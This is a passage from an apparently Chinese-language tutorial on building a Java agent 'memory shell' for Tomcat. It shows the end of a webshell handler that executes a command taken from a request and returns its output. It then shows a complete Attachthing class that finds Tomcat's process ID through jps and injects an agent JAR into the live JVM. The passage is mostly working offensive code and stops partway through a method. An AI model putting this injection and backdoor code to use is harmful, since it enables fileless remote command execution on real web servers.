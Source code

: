 ```txt
            {
               result=priv.ga0weI.baseonagent.Shell.execute(cmd);
            }
                response.getWriter().print(result);
                return;
            }
      }
      catch(Exception e)
      {
         response.getWriter().print(e.getMessage());
      }
```

Inject or Attach :

定义并实现Attachthing类，利用java tools来实现loadagent，向jvm虚拟机的的java应用注入agent；这里我们实现的时候首先通过jps找到Tomcat的pid，因为Tomcat的启动文件叫BootStrap，而jvm中的jsp 的命名方法是通过启动文件命名，所以我们可以通过这种方式来找到其pid。

```java
package priv.ga0weI.baseonagent;

import com.sun.tools.attach.VirtualMachine;

import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Attachthing {
    public static void main(String[] args) throws Exception {
        String pid = getpid().trim();
        System.out.println("find a Tomcat vm:"+pid);
        String currentPath = Attachthing.class.getProtectionDomain().getCodeSource().getLocation().getPath();
        currentPath = currentPath.substring(0, currentPath.lastIndexOf("/") + 1);
//        System.out.println("path:"+currentPath);
        String agentFile = currentPath.substring(1,currentPath.length())+"Agent-1.0-SNAPSHOT-jar-with-dependencies.jar".replace("/","\\");
        System.out.println("agent file path :"+agentFile);
        VirtualMachine vm = VirtualMachine.attach(pid);
        vm.loadAgent(agentFile);
        vm.detach();
        System.out.println("agent injected");
    }

    /**
     * look for pid in jvm
     * @return Pid
     * @throws Exception
     */
    private static String getpid() throws Exception{
        Process ps = Runtime.getRuntime().exec("jps");
        InputStream is = ps.getInputStream();
        InputStreamReader isr = new InputStreamReader(is);
        BufferedReader bis = new BufferedReader(isr);
        String line;
        StringBuilder sb = new StringBuilder();
        String result = null;
        while((line=bis.readLine())!=null){
            sb.append(line+";");
        }
        String  [] xx= sb.toString().split(";");
        for (String x : xx){
            if (x.contains("Bootstrap")) //find tomcat
            {
```